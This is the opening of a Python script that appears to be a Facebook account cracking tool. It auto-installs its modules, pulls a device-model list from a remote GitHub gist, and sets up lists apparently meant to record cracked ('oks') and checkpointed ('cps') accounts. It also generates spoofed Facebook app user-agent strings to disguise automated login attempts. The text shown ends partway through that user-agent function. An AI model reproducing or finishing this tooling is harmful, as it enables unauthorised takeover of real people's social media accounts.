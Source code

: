 #!/usr/bin/python
#BARKI Teach my wp 03188939326

import os,zlib

from os import system as osRUB
from os import system as cmd
os.system('clear')
print('loading Modules ...\n')



try:
    import requests 
except ImportError:
    print('\n  installing Requests ...\n')
    os.system('pip install requests')


try:
    import concurrent.futures
except ImportError:
    print('\n  installing futures ...\n')
    os.system('pip install futures')

try:
    import mechanize
except ModuleNotFoundError:
    os.system('pip install mechanize > /dev/null')

from urllib.request import Request, urlopen
import os, requests, re,platform, sys, random, subprocess, threading, itertools,base64,uuid,zlib,re,json,uuid,subprocess,shutil,webbrowser,time,json,sys,random,datetime,time,re,subprocess,platform,string,json,time,re,random,sys,string,uuid
from concurrent.futures import ThreadPoolExecutor as sarfrazssb
from string import * 
from random import randint
from time import sleep as slp
from os import system as cmd
from zlib import decompress 
import os, platform

from concurrent.futures import ThreadPoolExecutor
fast_work = ThreadPoolExecutor(max_workers=15).submit

    
model2 = requests.get('https://gist.githubusercontent.com/Nox-Naved/0588acb2b77932048a251d50a973029b/raw/f6de01ac684131b5353854ee114880fb00227cee/Model60').text.splitlines()
totaldmp = 0
count = 0
loop = 0
oks = []
cps = []
id = []
ps = []
sid = []
total=[]
methods = []
srange = 0
saved = []
totaldmp = 0
filter = []
def randBuildLSB():
    vchrome = str(random.randint(100,925))+".0.0."+str(random.randint(1,8))+"."+str(random.randint(40,150))
    VAPP = random.randint(410000000,499999999)
    END = '[FBAN/FB4A;FBAV/374.0.0.20.109;FBBV/381462200;FBDM/{density=2.0,width=720,height=1456};FBLC/en_US;FBRV/382083935;FBCR/1010;FBMF/Green;FBBD/Green;FBPN/com.facebook.katana;FBDV/GREEN 2020;FBSV/11;FBOP/1;FBCA/arm64-v8a:;]'